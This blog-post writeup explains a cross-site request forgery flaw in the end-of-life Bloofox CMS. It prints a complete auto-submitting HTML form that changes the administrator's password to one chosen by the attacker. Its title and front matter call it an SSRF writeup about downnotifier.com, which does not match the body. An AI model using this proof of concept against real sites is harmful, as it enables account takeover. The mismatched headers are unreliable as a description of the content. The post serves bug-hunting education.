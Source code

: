 ```yaml
---
layout: post
title:	"downnotifier.com SSRF Writeup"
date:	2018-12-29 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bounty_writeup
    - openbugbounty
---
```

<head>
	<title> downnofier.com SSRF</title>
</head>
![Screenshot]({{ site.baseurl }}/images/posts/2017/downssrf/logo.gif)


# i. Introduction

Bloofox is a Content Management System (CMS), which allows users to manage websites. Bloofox is very simple, yet powerful.

As with any CMS, Bloofox is riddled with bugs. As soon as functions such as managing users, website content; it opens up a huge attack surface on the application.

On May 21, 2018, Bloofox CMS has reached its end of life, which means any existing bugs will not be fixed, and all support will be stopped.

# ii. Summary

To read an in-depth summary of how CSRF works, and how it can be protected against, check out the summary section of this post: https://m-q-t.github.io/notes/zeuscart-csrf/

# iii. Exploiting Bloofox

It is a great practice for an application to issue CSRF tokens whenever a form is submitted.

However, in this case Bloofox can avoid the CSRF by not having to issue tokens.

How? Bloofox does not make the Administrator confirm their old password when setting a new password for themselves. Which makes a bit of sense, due to the fact if the user is an Administrator they should be able to change passwords.

Though for a high privileged account such as an Administrator, it is generally a great idea to have the administrator confirm their old password when changing it. If the administrator truly forgot their password and cannot change it, they can always go through the backend (such as updating their password in the database).

Due to Bloofox not having the Administrator confirm their password, and not issuing any tokens to make sure the form is valid, an attacker can send a link to the Administrator. Once the link is clicked, the request will be sent to the application to change the password to the attacker's choice.

PoC.html:
```text
<html>
<body>
<form method="post" action="http://localhost/admin/index.php?mode=user&action=edit" enctype="multipart/form-data">
    <input type="hidden" name="username" value="admin">
    <input type="hidden" name="password" value="CHANGEPASSWORD">
    <input type="hidden" name="pwdconfirm" value="CHANGEPASSWORD">
    <input type="hidden" name="3" value="Admin">
    <input type="hidden" name="blocked" value="0">
    <input type="hidden" name="deleted" value="0">
    <input type="hidden" name="status" value="1">
    <input type="hidden" name="login_page" value="0">
    <input type="hidden" name="userid" value="1">
    <input type="hidden" name="send" value="Save">
</form>
<script>document.forms[0].submit();</script>
</body>
</html>
```

When the Administrator clicks the link, they will see a blank page but a request will be sent to the server, and change the Administrator's password to whatever they set in the form.


# iv. Conclusion

In conclusion, like I have mentioned earlier, older applications are a great way to practice some bug hunting methodology and build foundation. It is true that newer applications implement more secure practices, though the foundation in the end is pretty much the same.


Thank you for reading.

~~~
Sources:
https://m-q-t.github.io/notes/zeuscart-csrf/
~~~
